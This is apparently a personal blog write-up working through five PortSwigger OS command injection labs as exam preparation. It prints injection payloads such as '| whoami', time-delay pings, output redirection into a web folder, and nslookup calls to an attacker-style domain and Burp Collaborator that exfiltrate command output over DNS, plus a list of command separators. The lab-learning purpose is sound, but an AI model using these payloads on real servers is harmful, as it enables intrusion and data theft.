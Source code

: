 ```yaml
---
title: OS Command Injection - Portswigger Labs
description: OS Command Injection - Portswigger Labs
excerpt:
  Command Injection, allows an attacker to execute operating system (OS) commands on the server that is running an application and typically fully compromise the application and its data.
datetime: 2024-05-09T19:33:07.000+00:00
tags:
  - Command Injection
  - Portswigger
  - Labs
featured: false
category: Tutorial
author: Nicolas Gula
type: article
coverImage:  https://miro.medium.com/v2/resize:fit:640/format:webp/1*HapzmTCjNvXIff_AsOCIuw.png
coverImageAlt: Microsoft AD
coverImageWidth: "2725"
coverImageHeight: "1400"
ogImage: "/assets/blog/hello-world/cover.jpg"
ogImageAlt: something
language: "English"
---
```

----

As preparation for the eWPTX im going to work through the Portswigger labs. In this post im going to steal... take notes about OS command injection and resolve the labs. Let's get started!!!

## Whats is OS Command Injection ?
OS command injection, allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

## Lab 1 - OS Command Injection, simple case

>This lab contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user. 

We go to the page and click in the "View Details" button.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/1.png)

When we do click in "Check Stock",send a request with parameters `productId=1&storeId=2` to `/product/stock`
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/3.png)

We change `storeId=2` for ...
```bash
productId=1&storeId=| whoami
```

and give us the name.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab1/4.png)

## Blind OS command injection vulnerabilities
### Detecting blind OS command injection using time delays
You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send.

```
& ping -c 10 127.0.0.1 &
```

## Lab 2 - Blind OS command injection with time delays
>This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay. 

We go to the Submit feedback page
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/1.png)

In the form put any data, send and capture with Burpsuite.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/3.png)

After testing in all parameters with the payload ...
```
| ping -c 10 127.0.0.1 &
```
URL encoded ...
```
|+ping+-c+10+127.0.0.1+%26
```

![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/4.png)

We see a delay of 9,440 milliseconds 🥳
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab2/5.png)

## Exploiting blind OS command injection by redirecting output
You can redirect the output from the injected command into a file. The > character sends the output from the whoami command to the specified file. For example:

```
& whoami > /var/www/static/whoami.txt &
```

## Lab 3 - Blind OS command injection with output redirection

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at: `/var/www/images/` The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. To solve the lab, execute the whoami command and retrieve the output. 

Same procedure like the lab before: go to the page of Submit Feedback,fill the form, send it, capture the request.
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/1.png)

We search for the parameter where inject the command
```
| whoami > /var/images/www/quiensoy.txt &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab3/3.png)

## Exploiting Blind OS Command Injection Using out-of-band (OAST) techniques

You can use an injected command that will trigger an out-of-band network interaction with a system that you control, using OAST techniques.
```
& nslookup kgji2ohoyw.web-attacker.com &
```

## Lab 4 - Blind OS Command Injection with out-of-band Interaction

> This lab contains a blind OS command injection vulnerability in the feedback function.The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. 

Same procedure 😮‍💨.....Copy the url from BurpCollaborator (Buy it! 😉)

```
| nslookup 2be44phd8284tgglwr1sf7ytekkb81wq.oastify.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/1.png)
And uala!
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab4/2.png)

## Next 

The out-of-band channel provides an easy way to exfiltrate the output from injected commands
```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

This causes a DNS lookup to the attacker's domain containing the result of the whoami command
```
wwwuser.kgji2ohoyw.web-attacker.com
```

## Lab 5 - Blind OS Command Injection with out-of-band data exfiltration

> This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain. To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

🏃‍♀️Go to the page of Submit Feedback,🏃‍♀️ fill the form, 🏃‍♀️ send it, 🏃‍♀️capture the request, copy the link from Burp Collaborator (B - U -Y -- I - T - ! 😉⬇️)

```
| nslookup 'whoami' .blablablablabla.whatever.com &
```
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/1.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/2.png)
![](https://raw.githubusercontent.com/NicolasGula/NicolasGula/master/public/images/photos/lab5/3.png)

## Ways of injecting OS Commands

The following command separators work on both Windows and Unix-based systems
```
&
&&
|
||
```

Unix
```
;
0x0a
\n
```

I hope you find it useful.👨‍💻

## Resources

[Portswigger](https://portswigger.net/web-security/os-command-injection)  

[HackTheBox](https://academy.hackthebox.com/module/details/109)  

[INE](https://ine.com/blog/command-injection)  

